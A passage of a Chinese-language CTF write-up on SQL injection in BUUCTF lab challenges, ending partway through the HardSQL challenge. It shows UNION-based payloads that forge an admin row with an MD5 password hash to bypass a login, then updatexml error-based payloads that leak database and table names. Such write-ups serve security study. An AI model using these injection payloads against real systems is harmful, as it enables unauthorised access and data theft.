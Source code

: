 ```sql
1' union select 'admin',2,3 #
```

![](https://cdn.nlark.com/yuque/0/2024/png/49235244/1732238249696-bb7d16f6-0720-4fe8-82e6-dc0c0a87586a.png)

再换个payload

```sql
1' union select 1,'admin',3 #
```

![](https://cdn.nlark.com/yuque/0/2024/png/49235244/1732238346818-d295d385-cbec-4ccc-945e-8dd3a68c773b.png)

所以说第二个字段就是存放用户名的字段，并且第三个字段就是存放密码的字段

由于我们再联合查询不存在的数据时，联合查询就会构造一个虚拟的数据，就是我们查询一个不存在的数据，联合查询就会构造一个数据出来。

所以我们构建密码为<font style="color:#601BDE;">hahaha </font><font style="color:#000000;">这里要用到md5加密</font>

```sql
username=1' union select 1,'admin','101a6ec9f938885df0a44f20458d2eb4'#
password=hahaha
```

登录成功 拿到flag

![](https://cdn.nlark.com/yuque/0/2024/png/49235244/1732238975237-b7309a06-9f12-4132-9468-35eee84d9809.png)

## BUUCTF <font style="color:rgb(33, 37, 41);">[极客大挑战 2019]HardSQL 1</font>
首先还是尝试万能公式

![](https://cdn.nlark.com/yuque/0/2024/png/49235244/1732240304379-7a9dcb86-c085-47e9-9055-c6f176be24c6.png)

很明显 被过滤了行不通 接着试着union联合查询 双写之后还是被过滤了

![](https://cdn.nlark.com/yuque/0/2024/png/49235244/1732240304379-7a9dcb86-c085-47e9-9055-c6f176be24c6.png?x-oss-process=image%2Fformat%2Cwebp%2Fresize%2Cw_1125%2Climit_0)

尝试有报错注入 爆数据库payload

```sql
username=1'or(updatexml(1,concat(0x7e,database(),0x7e),1))#
password=1
```

![](https://cdn.nlark.com/yuque/0/2024/png/49235244/1732249239887-b533f9f7-97ef-4bb8-924f-fd5e7f966ef6.png)

爆出了数据库名字为'geek'

接着查询表名 由于=被过滤了 所以使用like去代替

```sql
username=1'or(updatexml(1,concat(0x7e,(select(group_concat(table_name))from(information_schema.tables)where(table_schema)like(database())),0x7e),1))#
password=1
```
